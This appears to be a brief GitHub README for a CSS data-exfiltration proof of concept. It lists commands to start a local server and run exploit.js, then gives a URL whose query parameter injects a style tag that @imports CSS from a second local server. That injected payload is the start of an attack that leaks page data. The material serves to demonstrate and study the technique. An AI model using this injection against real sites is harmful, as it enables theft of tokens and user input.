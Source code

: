 # CSS-Exfiltration
<p align="center">
  <img src="css-data-exfiltration.png" alt="Cover Image">
</p>

1. Run the code with:
```
python3 -m http.server
```
2. run the exploit;
```
nodejs exploit.js
```
3. Open the link with exploit:
```
http://localhost:8000/?input=%3Ch1%3E%3C/h1%3E%3Cstyle%3E@import%20%27//localhost:3000/start%27;%3C/style%3E
```